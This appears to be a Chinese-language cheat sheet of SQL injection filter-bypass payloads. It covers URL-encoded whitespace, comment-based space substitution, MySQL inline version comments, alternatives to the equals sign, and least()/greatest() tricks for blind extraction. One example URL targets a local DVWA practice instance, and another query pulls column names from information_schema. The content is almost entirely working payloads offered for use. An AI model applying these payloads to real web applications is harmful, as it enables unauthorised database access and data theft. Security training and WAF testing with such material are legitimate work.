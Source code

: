 1、url编码   空格、换行符、制表符

```sql
http://127.0.0.1/DVWA-master/vulnerabilities/sqli/?id=1%27%09order%09by%092%09--+&Submit=Submit#
```

2、注释符

```sql
/**/

select/**/hex(group_concat(column_name))/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name=0x7573657273/**/
```

3、内敛注释

```sql
/*!*/		/*!1234567*/

/*!00000select*/*/*!from*/users/*!where*/id=1
select version()
/*!50726select*/*/*!from*/users/*!where*/id=1
/*!50727select*/*/*!from*/users/*!where*/id=1
/*!50725select*/*/*!from*/users/*!where*/id=1
```

4、特殊字符

```sql
+   请求包

()><''""=`		特殊符号前后是可以省略空格
select * from(users)where `id`=1
```

### 等号绕过

```sql
select * from users where id=1
select * from users where id<>1
select * from users where !(id<>1)
select * from users where id between 1 and 1
select * from users where id between 1 and 5
select * from users where username like 'admin'
select * from users where username like 'admin%'
select * from users where username like 'a_m_n_'
select * from users where username regexp 'admin'
select * from users where username rlike 'admin'
select * from users where username regexp '^admin'
select * from users where username regexp 'admin$'
```

### 大小于号

```sql
select least(2,4)
select GREATEST(2,4)

select least(ord(mid(database(),1,1)),115)=115
```
